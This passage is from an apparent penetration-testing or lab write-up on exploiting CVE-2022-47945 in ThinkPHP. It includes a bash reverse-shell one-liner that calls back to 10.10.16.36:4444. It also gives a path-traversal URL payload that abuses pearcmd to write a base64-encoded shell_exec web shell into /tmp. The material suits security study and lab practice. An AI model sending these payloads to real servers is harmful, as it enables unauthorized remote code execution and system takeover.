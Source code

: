 {% hint style="info" %}
More information about the [Phar Deserialization attack](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization)
{% endhint %}

### ThinkPHP - RCE

There's another way to get a shell that uses [ThinkPHP RCE](https://github.com/Mr-xn/thinkphp_lang_RCE?tab=readme-ov-file). The [article](https://tttang.com/archive/1865/) explains a Remote Code Execution (RCE) vulnerability in ThinkPHP versions 5. x and 6. x when the multi-language feature is enabled. Attackers can exploit this vulnerability by manipulating language parameters in the URL, headers, or cookies to achieve directory traversal and file inclusion. Specifically, we can include the <mark style="color:red;">**pearcmd**</mark> file in the ThinkPHP framework to execute arbitrary code on the server.  This is reported as [CVE-2022-47945](https://nvd.nist.gov/vuln/detail/CVE-2022-47945), so we can exploit it to get RCE.

We can generate the shell by following [this](https://github.com/Mr-xn/thinkphp_lang_RCE?tab=readme-ov-file):&#x20;

```bash
/bin/bash -c 'bash -i > /dev/tcp/10.10.16.36/4444 0>&1'
```

Base64 encodes for the <mark style="color:red;">**`shell_exec`**</mark> function. So we can have a payload like this:&#x20;

```sh
/index.php?page=../../../../../../../../usr/local/lib/php/pearcmd&+config-create+/&/<?shell_exec(base64_decode("L2Jpbi9iYXNoIC1jICdiYXNoIC1pID4gL2Rldi90Y3AvMTAuMTAuMTYuMzYvNDQ0NCAwPiYxJw=="));?>+/tmp/shell.php
```

Send the request using BurpSuite:&#x20;

<figure><img src="../../../.gitbook/assets/RCE.png" alt=""><figcaption></figcaption></figure>
